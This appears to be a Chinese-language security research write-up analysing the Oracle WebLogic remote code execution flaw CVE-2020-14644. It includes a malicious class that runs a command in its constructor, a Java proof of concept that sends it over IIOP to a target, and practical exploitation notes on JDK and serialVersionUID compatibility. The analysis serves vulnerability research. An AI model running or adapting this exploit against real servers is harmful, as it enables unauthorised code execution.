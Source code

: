 # Weblogic 远程命令执行漏洞（CVE-2020-14644）分析

作者：白帽汇安全研究院@Sp4rr0vv

核对：白帽汇安全研究院@r4v3zn

# 0x00 概述

2020 年 7 月 15 日，Oracle 发布大量安全修复补丁，其中 CVE-2020-14644 漏洞被评分为 9.8 分，影响版本为 `12.2.1.3.0、12.2.1.4.0, 14.1.1.0.0` 。本文基于互联网公开的 POC 进行复现、分析，最终实现无任何限制的 `defineClass` + 实例化，进行实现 RCE。

# 0x01 前置知识

`JDK` 的 `ClassLoader` 类中有个方法是 `defindClass` ，可以根据类全限定名和类的字节数组，加载一个类到 `jvm` 中并返回对应的 `Class` 对象（随带一提，这种加载类的方式不会执行类初始化）。

![image-20200805135249325](https://nosec.org/avatar/uploads/attach/image/eec75b4ef9e0e8b4980ddfe22512dba6/image-20200805135249325.png)

所以只要参数 `name`（类名）和 `b` （类文件的二进制数据）可控，理论上我们可以加载任何类，需要注意的一点是，这个类名 `name` 一定要和这个类字节数组 `b` 中对于的类名一致才行，不然就是一个 `NoClassDefFoundError`

![image-20200805143407083](https://nosec.org/avatar/uploads/attach/image/030032e9d2435a7e9237d92426f5632c/image-20200805143407083.png)

![image-20200805143146631](https://nosec.org/avatar/uploads/attach/image/c69586bf5e2dfe214fbebe21b4bcec6b/image-20200805143146631.png)

# 0x02 复现

环境

- Weblogic 12.2.1.4.0
- jdk 1.8.0_112
- Windows 10

首先准备一个带包名的恶意类，在构造函数中写入恶意代码

```
package com;

import java.io.IOException;

public class EvilObj {

    public EvilObj() {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var1) {
            var1.printStackTrace();
        }
    }
}
```

POC

```
ClassIdentity classIdentity = new ClassIdentity( EvilObj.class);
ClassPool cp = ClassPool.getDefault();
CtClass ctClass = cp.get(EvilObj.class.getName());
ctClass.replaceClassName(EvilObj.class.getName(),  EvilObj.class.getName() + "$" + classIdentity.getVersion());
RemoteConstructor constructor = new RemoteConstructor(
        new ClassDefinition(classIdentity, ctClass.toBytecode()),
        new ob ject[] {}
);
// 发送 IIOP 协议数据包
Context context = getContext("iiop://ip:port");
context.rebind("hello",constructor);
```

复现结果：

![image-20200806093842214](https://nosec.org/avatar/uploads/attach/image/97ef8d5118d7f823a1d2fa93b5db540f/image-20200806093842214.png)

以下为简化版调用栈：

```
exec:347, Runtime (java.lang)
<init>:14, SimpleMapEntry$7E80A4E3098E7FB7B109472C77D1D573 (com.tangosol.util)
newInvokeSpecial__L:-1, 1565249093 (java.lang.invoke.LambdaForm$DMH)
reinvoke:-1, 1641862114 (java.lang.invoke.LambdaForm$BMH)
invoker:-1, 222055923 (java.lang.invoke.LambdaForm$MH)
invokeExact_MT:-1, 1593074896 (java.lang.invoke.LambdaForm$MH)
invokeWithArguments:627, MethodHandle (java.lang.invoke)
createInstance:149, ClassDefinition (com.tangosol.internal.util.invoke)
realize:142, RemotableSupport (com.tangosol.internal.util.invoke)
newInstance:122, RemoteConstructor (com.tangosol.internal.util.invoke)
readResolve:233, RemoteConstructor (com.tangosol.internal.util.invoke)
```

# 0x03 实际利用

综述，整体的思路为，构造一个带有包名类，恶意代码写进构造函数中就行，然后通过 `javassist` 进行动态修改类名，将原类名追加 `$` 和 `version` 值，在实战利用中可能会出现以下问题。

## 3.1 为啥要带包名？

因为`ClassIdentity`的构造函数中有下面这个链式调用，不带包名`getPackage()`会返回`null`，再往下调用就会空指针异常

![image-20200806094554771](https://nosec.org/avatar/uploads/attach/image/8838e71b0a6f06424378b5a05db8a3db/image-20200806094554771.png)

## 3.2 Class 版本问题

在利用的过程中常常会出现，由于 JDK 版本问题无法正常利用问题。

1. 可以通过在编译获取恶意类时加入 `-source 1.6 -target 1.6` 参数指定编译版本。
2. 也可通过设置当前运行 jdk 版本调整为最低版本进行使用。

# 0x04 序列化 ID 问题

由于 Weblogic 版本的变化，`coherence.jar` 文件中的 `serialVersionUID` 可能会出现不一致的问题，通过分析测试得出以下结论 `12.2.1.3.0` 与 `12.2.1.4.0`、`14.1.1.0.0` 的 `serialVersionUID` 不同，以下为详细测试的结果：

| coherence.jar | weblogic 版本 | 是否成功 |
| :------------ | :------------ | :------- |
| 12.2.1.3.0    | 12.2.1.3.0    | 成功     |
| 12.2.1.3.0    | 12.2.1.4.0    | 失败     |
| 12.2.1.3.0    | 14.1.1.0.0    | 失败     |
| 12.2.1.4.0    | 12.2.1.3.0    | 失败     |
| 12.2.1.4.0    | 12.2.1.4.0    | 成功     |
| 12.2.1.4.0    | 14.1.1.0.0    | 成功     |
| 14.1.1.0.0    | 12.2.1.3.0    | 失败     |
| 14.1.1.0.0    | 12.2.1.4.0    | 成功     |
| 14.1.1.0.0    | 14.1.1.0.0    | 成功     |

该问题可通过 `URLClassLoader` 进行动态加载处理以下为部分核心代码（摘自 `weblogic-fr amework`）：

![image-20200806133258369](https://nosec.org/avatar/uploads/attach/image/e2e3a9f84f6bdc37928df0aaa39593a0/image-20200806133258369.png)

![image-20200806133919212](https://nosec.org/avatar/uploads/attach/image/06d75c55d590d48d6eccca8576f861dc/image-20200806133919212.png)

# 0x05 参考

- [CVE-2020-14644 分析与 gadget 的一些思考](https://paper.seebug.org/1281/)
- https://www.oracle.com/security-alerts/cpujul2020.html


<br/>

<br/>
**[Goby 官网: https://gobysec.net/](https://gobysec.net/)** 

如果您有任何反馈建议，您可通过提交 issue 或是以下方式联系我们：

1. GitHub issue: [https://github.com/gobysec/Goby/issues](https://github.com/gobysec/Goby/issues)
2. 微信群：关注公众号“GobySec“，回复暗号”加群“ （社群优势：可第一时间了解Goby功能发布、活动等咨询）
3. Telegram Group: [http://t.me/gobies](http://t.me/gobies) 
4. 推特：[https://twitter.com/GobySec](https://twitter.com/GobySec)
